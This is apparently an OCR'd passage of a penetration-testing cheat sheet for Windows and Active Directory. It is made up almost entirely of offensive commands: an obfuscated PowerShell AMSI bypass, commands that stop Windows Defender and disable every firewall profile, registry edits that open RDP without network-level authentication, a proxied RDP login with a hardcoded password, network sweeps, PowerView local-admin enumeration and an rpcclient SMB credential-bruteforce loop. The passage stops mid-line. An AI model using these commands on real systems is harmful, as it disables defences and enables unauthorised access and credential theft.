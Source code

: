 [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

#Enable RDP on the target machine 
sc stop WinDefend
netsh advfirewall show allprofiles
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
netsh firewall set service remoteadmin enable 
netsh firewall set service remotedesktop enable

proxychains rdesktop 10.10.10.10 -u Bhanu -p Bhanu@1234 

#List all network shares
net share

#SNMP Configuration
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse

#DNS Sweep
for /L %i in (1,1,255) do @nslookup 10.10.10.%i [server to resolve 2>nul | find "Name" && echo 10.10.10.%i

#NetBIOS Sweep
for /L %i in (1,1,255) do @nbtstat A 10.10.10.%i 2>nul && echo 10.10.10.%i

#installing Powershell AD Module on a server 
Import Module ServerManager
Add-WindowsFeature RSAT-AD-PowerShell

Local Administrator Enumeration

#Find Remote server local admin users
([ADSI]'WinNT://computer_name/Administrators').psbase.Invoke('Members') |%{$_.GetType().InvokeMember('Name', 'GetProperty', $null, $_, $null)}

#Powerview - get local admin members
Get-NetLocalGroup -ComputerName computer_name

#Powerview - get local admin members using an API CALL
Get-NetLocalGroup -ComputerName computer_name - API

#Powerview - get local admin users recursively 
Get-NetLocalGroup -ComputerName computer_name -Recurse

Bruteforcing SMB Creds 

cat ips.txt | while read line 
do 
echo $line && rpcclient -U "Steins\username%P@ssword" -c "enumdomusers;quit" $line 
done

or 
